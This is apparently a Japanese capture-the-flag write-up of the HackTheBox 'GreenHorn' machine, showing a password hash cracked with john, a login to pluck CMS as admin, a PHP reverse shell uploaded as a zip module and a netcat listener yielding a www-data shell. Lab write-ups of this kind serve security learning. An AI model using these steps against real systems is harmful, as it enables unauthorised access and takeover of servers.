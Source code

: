 このサーバーは、3000番からアクセスできる。
![](https://raw.githubusercontent.com/crum7/Obsidian/main/HackTheBox_Writeups/Retired/Easy/GreenHorn/images/Pasted%20image%2020250102124547.png)
johnで解析する。
ハッシュのパスワードが「iloveyou1」であることがわかった。
```sh
└──╼ [★]$ echo "d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163" > hashes.txt

└──╼ [★]$ john --format=raw-sha512 hashes.txt
Created directory: /home/snowyowl644/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 256/256 AVX2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
iloveyou1        (?)     
1g 0:00:00:00 DONE 2/3 (2025-01-01 21:58) 33.33g/s 136533p/s 136533c/s 136533C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

sshでadmin/iloveyou1でログインしたがログインできない。
まず、pluck CMSにadmin/iloveyou1でログイン。
ユーザーを確認する。



# Foothold

記事を書いているMr.Greenというアカウントがあるのかと思ったけど、無さそう。
リバースシェルを[]moduleにアップロード、インストールして、リバースシェルを確立する。
正しく動いているときは、特にリバースシェルに明示的にアクセスしないで、勝手にリバースシェルが確立される。

リバースシェルは、[https://www.revshells.com/]を使用して、PHP PentestMonkeyを使う。
注意点として、.zipと.phpの前の名前は同じにしないと正しくインストールされないぽい。
```bash
nano shell.php
zip shell.zip shell.php
```

他のタブでリバースを待ち受ける。
```bash
sudo nc -lvnp <PORT>
```

リバースシェルが確立されて、whoamiをすると、Apache サーバーの Web 管理者であるwww-dataであることがわかる。
```bash
$ whoami
www-data
```

